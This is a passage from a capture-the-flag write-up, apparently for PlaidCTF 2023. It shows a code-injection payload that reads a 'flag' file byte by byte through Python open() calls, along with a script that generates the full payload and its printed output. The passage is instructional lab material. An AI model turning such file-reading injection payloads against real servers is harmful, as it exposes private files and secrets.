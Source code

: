 I guessing some character like `{}_` cause some error... Then I change the plan, leak the character in ASCII 1 by 1, like this:
```py
a(open("flag","rb").read()[0])+b(open("flag","rb").read()[1])+c(open("flag","rb").read()[2])...
```
Tested on the actual server:

![ttt5](/uploads/plaidctf2023/ttt5.png)

As you can see the response contain the flag character in ASCII: `112,99,116,102` which is the flag format `pctf` 

Then I quickly wrote a python script to generate the payload to leak the first 26 character:
```py
import string

for i in range(26):
    print(f"""{string.ascii_lowercase[i]}(open('flag','rb').read()[{i}])""",end='+')
```
Output:
```
a(open('flag','rb').read()[0])+b(open('flag','rb').read()[1])+c(open('flag','rb').read()[2])+d(open('flag','rb').read()[3])+e(open('flag','rb').read()[4])+f(open('flag','rb').read()[5])+g(open('flag','rb').read()[6])+h(open('flag','rb').read()[7])+i(open('flag','rb').read()[8])+j(open('flag','rb').read()[9])+k(open('flag','rb').read()[10])+l(open('flag','rb').read()[11])+m(open('flag','rb').read()[12])+n(open('flag','rb').read()[13])+o(open('flag','rb').read()[14])+p(open('flag','rb').read()[15])+q(open('flag','rb').read()[16])+r(open('flag','rb').read()[17])+s(open('flag','rb').read()[18])+t(open('flag','rb').read()[19])+u(open('flag','rb').read()[20])+v(open('flag','rb').read()[21])+w(open('flag','rb').read()[22])+x(open('flag','rb').read()[23])+y(open('flag','rb').read()[24])+z(open('flag','rb').read()[25])+
```
Then save the server response in a file:
